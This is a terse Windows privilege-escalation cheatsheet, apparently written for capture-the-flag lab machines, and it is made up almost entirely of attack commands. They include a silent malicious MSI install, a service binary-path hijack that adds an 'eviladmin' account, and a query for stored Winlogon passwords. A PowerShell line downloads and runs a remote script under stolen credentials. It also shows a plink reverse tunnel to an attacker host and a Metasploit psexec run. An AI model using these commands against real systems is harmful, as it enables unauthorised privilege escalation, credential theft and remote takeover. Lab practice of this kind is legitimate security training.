 # Cheatsheet

## MSI

### Installing MSI
```
msiexec /quiet /qn /i malicious.msi
```
```
/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation
```

## Services

- Registry entries: `HKLM\SYSTEM\CurrentControlSet\Services`
- View service properties: `sc qc "Vulnerable Service"`
- Restarting: `sc stop "Vulnerable Service"`
- Restart PC: `shutdown /r /t 0`
- Change binary path: `sc config "Vulnerable Service" binpath= "net user eviladmin P4ssw0rd@ /add`

### Keep alive
When a service starts in Windows operating systems, it must communicate with the `Service Control Manager`. If it’s not, `Service Control Manager` will terminates the process.

## Auto Save Password to PowerShell
```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```
```
​$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;
$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)​

Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://<LAB IP>/writeup')" -Credential $creds
```
## Permissions

## View Permisions
```
cacls C:\Users\Administrator\Desktop\root.txt
```

### Grant Permissions
```
cacls C:\Users\Administrator\Desktop\root.txt /grant Alfred:F
```

## SSH from Windows to Attacker (Kali)

### Manual
From Windows:
```
plink.exe -l root -pw  -R 445:127.0.0.1:445 10.10.14.8
```

From Attacker:
```
netstat -ano | grep 445
winexe -U Administrator //127.0.0.1 "cmd.exe"
```

### Metasploit
```
portfwd add -l 445 -p 445 -r 127.0.0.1
use exploit/windows/smb/psexec
 set SMBDOMAIN CHATTERBOX
 set SMBUSER Administrators
 set SMBPASS Welcome1!
 set RHOST 127.0.0.1
exploit
```

